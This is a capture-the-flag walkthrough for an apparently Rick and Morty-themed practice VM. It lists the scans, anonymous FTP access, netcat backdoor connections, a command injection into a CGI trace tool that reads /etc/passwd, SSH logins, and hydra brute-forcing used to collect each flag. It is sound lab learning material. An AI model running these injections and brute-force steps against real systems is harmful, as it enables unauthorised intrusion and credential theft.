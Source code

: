 # nbenny
`arp-scan -l -I eth0`
`nikto -host 10.0.2.11`
Mozilla - http://10.0.2.11/passwords/FLAG.txt
**FLAG{Yeah d- just don't do it.} - 10 Points**
_____________________________________________________
`arp-scan -l -I eth0`
`nikto -host 10.0.2.11 -port 9090`
Mozilla - http://10.0.2.11:9090
**FLAG {There is no Zeus, in your face!} - 10 Points**
_____________________________________________________
`arp-scan -l -I eth0`
`nmap -p- -T5 -A -sV 10.0.2.11`
`nc 10.0.2.11 13337`
**FLAG {They Found My Back Door Morty} - 10 Points**
_____________________________________________________
`arp-scan -l -I eth0`
`nmap -p- -T5 -A -sV 10.0.2.11`
```
ftp 10.0.2.11 21
    basic set login on ftp
	id: Anonymous
	pwd: Anonymous
get FLAG.txt
quit
```
`cat FLAG.txt`
**FLAG{Whoa this is unexpected} - 10 Points**
_____________________________________________________
`arp-scan -l -I eth0`
`nmap -p- -T5 -A -sV 10.0.2.11`
`nc 10.0.2.11 60000`
`ls ; cat FLAG.txt`
**FLAG{Flip the pickle Morty!} - 10 Points**
_____________________________________________________
`arp-scan -l -I eth0`
`nmap -p- -T5 -A -sV 10.0.2.11`
`nikto -host 10.0.2.11 -port 80`
`dirb http://10.0.2.11/`
Mozilla http://10.0.2.11/robots.txt
Mozilla http://10.0.2.11/cgi-bin/tracertool.cgi
	insert in tracertool.cgi `;head -1000 /etc/passwd`
	press trace!
	user found -> **Ricksanchez**, **Morty** et **Summer**
Mozilla http://10.0.2.11/passwords/passwords.html
	inspect element:
	commentaire = Password: **winter**
`ssh Summer@10.0.2.11 -p 22222`
    password = winter
`cat FLAG.txt`
    afficher l entete du fichier
`head FLAG.txt`
**FLAG{Get off the high road Summer!} - 10 Points**
_____________________________________________________
`cd /home/Morty`
`head Safe_Password.jpg`
   The Safe Password: File: /home/Morty/journal.txt.zip. **Password: Meeseek**
`scp -P 22222 Summer@10.0.2.11:/home/Morty/journal.txt.zip ./`
`exit`
`unzip journal.txt.zip`
`cat journal.txt`
**FLAG{131333} - 20 Points**
_____________________________________________________
`ssh Summer@10.0.2.11 -p 22222`
`cd ~`
`cp ../RickSanchez/RICKS_SAFE/safe .`
`./safe 131333`
**FLAG{And Awwwaaaaayyyy we Go!} - 20 Points**
_____________________________________________________
`crunch 10 10 azertyuiopqsdfghjklmwxcvbn0123456789AZERTYUIOPQSDFGHJKLMWXCVBN > passfinal`
`hydra -l RickSanchez -P passfinal ssh://10.0.2.11 -s 22222`
      password: P7Curtains
`ssh RickSanchez@10.0.2.11 -p 22222`
`sudo -l`
`cd`
`head FLAG.txt`
**FLAG{Ironic Defibrillator} - 30 points**

